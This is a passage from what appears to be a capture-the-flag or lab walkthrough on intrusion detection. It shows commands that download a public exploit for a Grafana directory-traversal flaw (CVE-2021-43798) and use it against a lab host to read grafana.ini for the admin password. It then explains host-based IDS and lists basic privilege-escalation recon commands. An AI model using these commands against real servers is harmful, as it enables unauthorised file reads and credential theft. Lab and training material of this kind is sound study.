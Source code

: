 https://github.com/jas502n/Grafana-CVE-2021-43798

`wget https://raw.githubusercontent.com/Jroo1053/GrafanaDirInclusion/master/src/exploit.py`

`python3 exploit.py -u 10.10.107.199 -p 3000 -f <REMOTE FILE TO READ>`

Q) What is the password of the grafana-admin account?
	`python3 exploit.py -u 10.10.107.199 -p 3000 -f /etc/grafana/grafana.ini | grep 'password'`

## **Host Based IDS (HIDS)**
Not all forms of malicious activity involve network traffic that could be detected by a NIDS, ransomware, for example, could be disturbed via an external email service provider installed and executed on a target machine and, only be detected by a NIDS once, it calls home with messages of its success which, of course, is way too late. For this reason, it is often advisable to deploy a host-based IDS alongside a NIDS to check for suspicious activity that occurs on devices and not just over the network including:
- Malware execution;
- System configuration changes;
- Software errors;
- File integrity changes;
- Privilege escalation;

HIDS deployment can be a lot more complex than NIDS as they often require the installation and management of an agent on each host intended to be covered by the HIDS. This agent typically forwards activity from the data sources on the system to a central management and processing node which then applies the rules to the forwarded data in a manner similar to any other IDS. These data sources typically include:
- Application and system log files.
- The Windows registry.
- System performance metrics.
- The state of the file system itself.

This can be hard to manage in a large environment without some form of automated deployment mechanism, like Ansible. It is also often necessary to perform additional configuration work when first deploying a HIDS as the default options are likely to miss certain applications. For example, to create this demo deployment I built custom docker images for each service that was monitored by the HIDS and configured the agent to read from each services log file, performing this for every containerised service on a real network and managing updates would quickly get out of hand unless automation was deployed.

The primary difference between HIDS and NIDS is the types of activity that they can detect. A HIDS will not typically have access to a log of network traffic and is, therefore, unable to detect certain forms of activity at all or will only be able to detect more aggressive activity.

## **Privilege Escalation Recon**
This is primarily a task for HIDS as many post-exploitation tasks like, privilege escalation do not require communication with the outside world and are hard or impossible to detect with a NIDS. In fact, privilege escalation is our first task as we are not yet root. The first step in privilege escalation is usually checking what permissions we currently have this, could save us a lot of work if we're already in the sudo group. There are a few different ways to check this including:

- `sudo -l` this will return a list of all the commands that an account can run with elevated permissions via `sudo`
- `groups` will list all of the groups that the current user is a part of.
- `cat /etc/group` should return a list of all of the groups on the system and their members. This can help in locating users with higher access privileges and not just our own.
